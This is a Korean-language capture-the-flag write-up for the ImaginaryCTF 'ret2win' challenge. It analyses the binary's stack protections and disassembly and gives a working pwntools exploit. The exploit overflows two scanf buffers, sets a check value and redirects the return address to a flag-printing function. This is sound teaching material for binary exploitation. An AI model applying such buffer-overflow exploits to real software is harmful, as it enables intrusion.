




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[ret2win.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round9/ret2win/file/ret2win.zip)


# **Write-Up**

ret2win의 기본 정보를 파악한다.

```sh
root@ubuntu:~# file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8a87728e002ee79777aa4dbce3ec1e2c6174f358, for GNU/Linux 3.2.0, not stripped
root@ubuntu:~# checksec ret2win
[*] '/root/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

언제나 그렇듯 입력받는 부분(scanf)에서 overflow가 터진다.

```
0x000000000040125f <+98>:    lea    -0x10(%rbp),%rax
0x0000000000401263 <+102>:   mov    %rax,%rsi
0x0000000000401266 <+105>:   lea    0xdda(%rip),%rdi        # 0x402047
0x000000000040126d <+112>:   mov    $0x0,%eax
0x0000000000401272 <+117>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x0000000000401277 <+122>:   cmpl   $0x1337c0d3,-0x4(%rbp)
0x000000000040127e <+129>:   jne    0x4012a4 <main+167>
0x0000000000401280 <+131>:   lea    0xdc5(%rip),%rdi        # 0x40204c
0x0000000000401287 <+138>:   callq  0x401080 <puts@plt>
0x000000000040128c <+143>:   lea    -0x1c(%rbp),%rax
0x0000000000401290 <+147>:   mov    %rax,%rsi
0x0000000000401293 <+150>:   lea    0xdb8(%rip),%rdi        # 0x402052
0x000000000040129a <+157>:   mov    $0x0,%eax
0x000000000040129f <+162>:   callq  0x4010c0 <__isoc99_scanf@plt>
0x00000000004012a4 <+167>:   mov    $0x0,%eax
0x00000000004012a9 <+172>:   leaveq
0x00000000004012aa <+173>:   retq
```

또한 0x4011BA에서 flag.txt를 읽고 출력하는 로직이 존재한다.



첫번째 scanf에서는 0x10(16)byte만큼 공간이 확보되지만, 0x401266에서 20byte만큼 받을 수 있다. 그리고 0x401277에서 [rbp-4]와 0x1337C0D3와 비교하여 일치해야 다음 로직으로 진행할 수 있다.(여기서 overflow는 필요없음)



두번째 scanf에서는 0x1C(28)byte만큼 공간이 확보되지만, 0x401293에서 44byte만큼 받을 수 있고, 0x4012A4에서 return할 때, flag를 출력하는 로직이 시작되는 부분(0x4011BA)으로 return address를 덮으면 된다.



따라서 exploit 코드는 다음과 같이 작성하면 flag를 획득할 수 있다. (포스팅 시 해당 대회는 이미 끝난 상태라 로컬에서 flag.txt를 만들고 그 안에 flag값을 넣고 진행)

```py
from pwn import *
context(arch='amd64')
p = process('./ret2win')

payload = b''
payload += b'\x00'*(0x10 - 0x04)
payload += p32(0x1337C0D3)
p.recvuntil('specific')
p.sendline(payload)

payload = b'\x00'*(0x1C + 0x08)
payload += p64(0x4011BA)
p.recvuntil('Check')
p.sendline(payload)

p.interactive()

[Output]
root@ubuntu:~# [+] Starting local process './ret2win': pid 3225
[*] Switching to interactive mode

ictf{mak1ng_r@nd0m_flags_15_n0t_fun}

[*] Got EOF while reading in interactive
$
```


# **FLAG**

**ictf{mak1ng_r@nd0m_flags_15_n0t_fun}**